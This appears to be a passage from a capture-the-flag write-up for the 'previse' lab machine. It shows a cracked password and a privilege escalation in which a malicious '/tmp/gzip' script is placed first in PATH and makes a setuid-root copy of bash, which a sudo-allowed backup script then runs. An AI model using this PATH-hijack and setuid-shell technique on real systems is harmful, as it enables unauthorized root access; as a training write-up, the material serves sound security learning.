 The hash is crackable:  `ilovecody112235!`

## PE

There's a script that can be run as `root` via Sudo, and it's vulnerable to a Path Injection. I can replace `gzip` with my own malicious script by placing it first in the `PATH` environmental variable.

```console
$ ssh m4lwhere@t
m4lwhere@t's password:
...

Last login: Fri Jun 18 01:09:10 2021 from 10.10.10.5
m4lwhere@previse:~$ cat user.txt
ec5d4a..
m4lwhere@previse:~$ sudo -l
[sudo] password for m4lwhere:
User m4lwhere may run the following commands on previse:
    (root) /opt/scripts/access_backup.sh
m4lwhere@previse:~$ cat /opt/scripts/access_backup.sh
#!/bin/bash

# We always make sure to store logs, we take security SERIOUSLY here

# I know I shouldnt run this as root but I cant figure it out programmatically on my account
# This is configured to run with cron, added to sudo so I can run as needed - we'll fix it later when there's time

gzip -c /var/log/apache2/access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_access.gz
gzip -c /var/www/file_access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_file_access.gz
m4lwhere@previse:~$ ls -l /opt/scripts/access_backup.sh
-rwxr-xr-x 1 root root 486 Jun  6  2021 /opt/scripts/access_backup.sh
```

Here's `/tmp/gzip`:

```
#!/bin/bash
cp /bin/bash /tmp/x; chown root:root /tmp/x; chmod 6777 /tmp/x
```

```
m4lwhere@previse:~$ chmod +x /tmp/gzip
m4lwhere@previse:~$ export PATH="/tmp:$PATH"
m4lwhere@previse:~$ which gzip
/tmp/gzip
m4lwhere@previse:~$ sudo /opt/scripts/access_backup.sh
m4lwhere@previse:~$ ls -l /tmp/x
-rwsrwsrwx 1 root root 1113504 May 14 20:41 /tmp/x
m4lwhere@previse:~$ /tmp/x -p
x-4.4# cat /root/root.txt
b65f3d...
```
